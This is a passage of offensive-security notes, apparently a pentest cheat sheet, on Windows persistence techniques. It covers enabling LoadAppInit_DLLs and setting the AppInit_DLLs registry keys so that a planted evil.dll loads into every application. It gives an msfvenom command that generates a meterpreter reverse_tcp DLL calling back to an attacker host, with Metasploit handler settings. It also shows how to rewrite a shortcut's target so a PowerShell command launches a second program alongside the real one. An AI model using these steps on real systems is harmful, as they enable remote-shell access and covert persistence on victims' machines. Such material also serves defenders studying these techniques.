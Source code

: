         -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows

        -   HKLM\\Software\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows

    -   Microsoft to protect Windows users from malware has disabled by default the loading of DLLs's via AppInit. However, setting the registry key "**LoadAppInit\_DLLs**" to value "**1**" will enable this functionality. Dropping the arbitrary DLL into the "**Program Files**" directory and modifying the "**AppInit\_DLLs**" registry key to contain the path of the DLL will load the evil.dll into every Windows application. This is because DLL's that are specified in the "**AppInit\_DLLs**" registry key are loaded by the user32.dll which is used by almost all applications.

    -   **Enable LoadAppInit\_DLLs - 32bit and 64bit**

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\LoadAppInit\_DLLs - 0x1

        -   HKLM\\Software\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\LoadAppInit\_DLLs - 0x1 

    -   **Registry Key for Arbitrary DLL via AppInit - 32bit and 64bit **

        -   HKLM\\Software\\Microsoft\\Windows NT\\CurrentVersion\\WindowsAppInit\_DLLs

        -   HKLM\\Software\\Wow6432Node\\Microsoft\\Windows NT\\CurrentVersion\\Windows\\AppInit\_DLLs

    -   **Generate a malicious dll**

        -   msfvenom -p windows/meterpreter/reverse\_tcp LHOST=\[ip\] LPORT=\[port\] -f dll \> evil.dll

    -   upload this dll to the target's host in the program files directory but this method is very noisy and will generate multiple sessions

        -   set ExitonSession false

        -   explit -j

-   **Com hijacking**

-   **DLL Search Order Hijacking**

-   **Shortcut Hijacking**

    -   Another simple but very effective technique is to hijack the shortcut icons every shortcut has a target attribue (box) .that can be opened by right click then program properties.we can modify that value in the  Target attribute to contain   the normal application to be launched, and also  to execute another program

    -   **Ex :**

        -   the target value is  \"  \\\\VBOXSVR\\Tools\\HxD\\HxD64.exe \"

        -   change the shortcut\'s target box value to this simple powershell

        -   powershell.exe -c \"invoke-item \\\\VBOXSVR\\Tools\\HxD\\HxD64.exe; invoke-item c:\\windows\\system32\\calc.exe\"

        -   it will launch the normal app along with the calc.exe  but we will notic that the icon is change to a powershell script We can change it back by clicking \"Change Icon\" and specifying the original .icon of the normal app


-   <h2 align="center">Post Exploitation other activities</h2>
